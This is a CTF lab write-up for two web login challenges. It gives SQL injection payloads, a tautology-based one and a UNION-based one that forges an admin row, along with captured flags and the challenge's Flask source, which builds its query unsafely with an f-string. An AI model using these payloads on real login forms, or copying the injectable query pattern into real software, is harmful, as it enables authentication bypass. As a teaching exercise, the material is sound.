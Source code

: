 # Simple Web 0x03(Lab - Log me in + Revenge)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8200/
Challenge: http://h4ck3r.quest:8201/

## Exploit - `SQLi`
* Payload → `') or ('1'='1') -- #`
SELECT * FROM admin WHERE (username='') or ('1'='1') -- #') AND (password='MTIz')

Flag: `FLAG{b4by_sql_inj3cti0n}`

## Revenge source code
:::spoiler code
```python!=
from flask import Flask, render_template, redirect, request, g, Response
import sqlite3

app = Flask(__name__)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/database.db')
        db.row_factory = sqlite3.Row
    return db


@app.before_first_request
def init_db():
    cursor = get_db().cursor()
    cursor.execute("""
    CREATE TABLE IF NOT EXISTS "admin" (
        "username"  TEXT NOT NULL,
        "password"  TEXT NOT NULL
    )
    """)
    cursor.execute("SELECT COUNT(*) as count FROM admin WHERE username='admin'")
    count = cursor.fetchone()['count']
    if count == 0:
        import secrets
        cursor.execute("INSERT INTO admin (username, password) VALUES (?,?)",
                       ('admin', secrets.token_urlsafe()))
    get_db().commit()


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route("/")
def home():
    return render_template("index.html",
                           failed=request.args.get('failed') != None)


@app.route("/login", methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    if not username or not password:
        return redirect("/?failed")

    cur = get_db().execute(f"SELECT * FROM admin WHERE (username='{username}')")
    res = cur.fetchone()
    cur.close()

    if res['username'] == 'admin' and res['password'] == password:
        return "FLAG: FLAG{<REDACTED>}"

    return redirect("/?failed")



@app.route("/source")
def source():
    import re
    source_code = open(__file__).read()
    source_code = re.sub(r'FLAG{[^}\s]+}', 'FLAG{<REDACTED>}', source_code, 1)
    return Response(source_code, mimetype='text/plain')


if __name__ == '__main__':
    app.run(debug=True)

```
:::

## Exploit - `SQLi` + union syntax
1. Observe source code first
It must receive username and password together, or failed otherwise. Thus, we can not use previous payload.
2. Union syntax
Username Payload → `') union select 'admin', 'password' -- #`
Password → `password`
<font color="FF000">SELECT * FROM admin WHERE (username='') union select 'admin', 'password' -- #')</font>

Flag: `FLAG: FLAG{un10n_bas3d_sqli}`

